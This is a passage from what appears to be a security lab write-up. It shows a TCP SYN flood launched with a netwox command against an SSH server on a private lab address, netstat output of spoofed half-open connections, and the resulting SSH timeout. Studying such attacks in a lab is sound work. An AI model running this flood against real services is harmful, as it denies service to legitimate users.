 #### Attack

We want to target the SSH server running at the port 22 and the address of the machine is `10.2.1.16`. So, to perform the attack we need to execute

```bash
netwox 76 -i 10.2.1.16 -p 22 -s raw
```

After running this command, we execute again the `netstat` command on the server to see what is going on.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            142.65.213.19:8969      SYN_RECV
tcp        0      0 10.2.1.16:22            42.82.247.152:23656     SYN_RECV
tcp        0      0 10.2.1.16:22            21.74.47.152:40124      SYN_RECV
tcp        0      0 10.2.1.16:22            219.199.203.189:16719   SYN_RECV
tcp        0      0 10.2.1.16:22            25.30.122.237:58762     SYN_RECV
tcp        0      0 10.2.1.16:22            8.107.205.103:57390     SYN_RECV
tcp        0      0 10.2.1.16:22            218.215.44.80:61166     SYN_RECV
tcp        0      0 10.2.1.16:22            190.69.210.6:22369      SYN_RECV
tcp        0      0 10.2.1.16:22            5.244.215.162:14775     SYN_RECV
tcp        0      0 10.2.1.16:22            111.93.83.52:57612      SYN_RECV
tcp        0      0 10.2.1.16:22            164.243.64.220:8708     SYN_RECV
tcp        0      0 10.2.1.16:22            27.189.25.159:18512     SYN_RECV
tcp        0      0 10.2.1.16:22            66.77.120.164:23110     SYN_RECV
tcp        0      0 10.2.1.16:22            81.225.85.217:25157     SYN_RECV
tcp        0      0 10.2.1.16:22            118.36.20.88:37156      SYN_RECV
tcp        0      0 10.2.1.16:22            131.13.233.59:2758      SYN_RECV
tcp        0      0 10.2.1.16:22            145.136.144.151:65212   SYN_RECV
tcp        0      0 10.2.1.16:22            122.252.244.20:31515    SYN_RECV
tcp        0      0 10.2.1.16:22            5.49.25.115:48337       SYN_RECV
```

The list of `SYN_RECV` connections is larger but it would be unecessary to show it all. We can see that all these connections target the port 22 and the foreign address looks random. After leaving this tool running for a couple of seconds, the server will not be able to receive new TCP connections.

We can verify this by trying to open a new SSH from the client.

```bash
user@client:~$ ssh user@10.2.1.16
ssh: connect to host 10.2.1.16 port 22: Operation timed out
```

We need to specify here that this attack will only affect the port 22 and the SSH service. If telnet was running on port 23 it would not be affected because the each port has its own connection queue. Also, the server will continue operating normally, without any indication that an attack is happening.

   <div class="page"/>
